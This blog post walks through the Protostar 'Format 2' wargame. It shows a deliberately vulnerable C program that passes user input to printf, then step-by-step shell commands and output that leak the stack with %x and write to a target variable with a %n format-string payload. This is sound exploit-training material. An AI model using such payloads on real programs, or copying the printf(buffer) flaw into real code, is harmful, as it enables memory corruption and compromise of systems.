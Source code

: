 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Format 2"
date: 2012-01-31T05:13:00-05:00
comments: true
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


Continuing from where we left off, we arrive at [Format 2](http://exploit-exercises.com/protostar/format2).  It presents us with the following code: 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
 char buffer[512];

 fgets(buffer, sizeof(buffer), stdin);
 printf(buffer);

 if(target == 64) {
  printf("you have modified the target :)\n");
 } else {
  printf("target is %d :(\n", target);
 }
}

int main(int argc, char **argv)
{
 vuln();
}
```

This challenge seems very similar to Format 1, in all but 2 ways:

1. The input is done via a fgets() instead of from the program arguments.
2. Instead of allowing just any change, it specifically requires "target" to be equal to "64".

We'll start pretty much the same way as last time, spamming "%x": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "AAAAAAAA" . "%x."x150'` | ./format2
AAAAAAAA200.b7fd8420.bffff624.41414141.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.a2e78.b7eada75.b7fd7ff4.80496b0.bffff7c8.8048338.b7ff1040.80496b0.bffff7f8.80484f9.b7fd8304.b7fd7ff4.80484e0.bffff7f8.b7ec6365.b7ff1040.bffff7f8.80484c6.80484e0.0.bffff878.b7eadc76.1.bffff8a4.bffff8ac.b7fe1848.bffff860.ffffffff.b7ffeff4.8048285.1.bffff860.b7ff0626.
target is 0 :(
```

This time, however, it seemed MUCH quicker to get the "41414141", only 4 words.  Let's verify: 

```
user@protostar:/opt/protostar/bin$ ./format2
AAAA%x%x%x%x
AAAA200b7fd8420bffff62441414141
target is 0 :(
```

So we're getting to a pretty good point, let's go ahead and find the memory address for "target": 

```
user@protostar:/opt/protostar/bin$ objdump -t format2 | grep target
080496e4 g     O .bss   00000004              target
```

Next, let's put that address in, replacing the "AAAA": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xe4\x96\x04\x08%x%x%x%x"'` | ./format2
200b7fd8420bffff62480496e4
target is 0 :(
```

The address seems to be the last word, without any problems.  So if we convert the last "%x" to "%n", it should overwrite that address in memory with the count of characters printed: 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xe4\x96\x04\x08%x%x%x%n"'` | ./format2
200b7fd8420bffff624
target is 23 :(
```

Unfortunately, only 23 characters were written.  We can increase that number artificially by just changing the format string from "%x" to "%44x".  This pads the string to be 44 characters long: 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xe4\x96\x04\x08%44x%x%x%n"'` | ./format2
                                         200b7fd8420bffff624
you have modified the target :)
```

That's pretty much how it's done. 

And again, as bonus, if you want to use Direct Argument Access, you can simply do:

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xe4\x96\x04\x08%7\\\$60x%4\\\$n"'` | ./format2
                                                       a6e24
you have modified the target :)
```
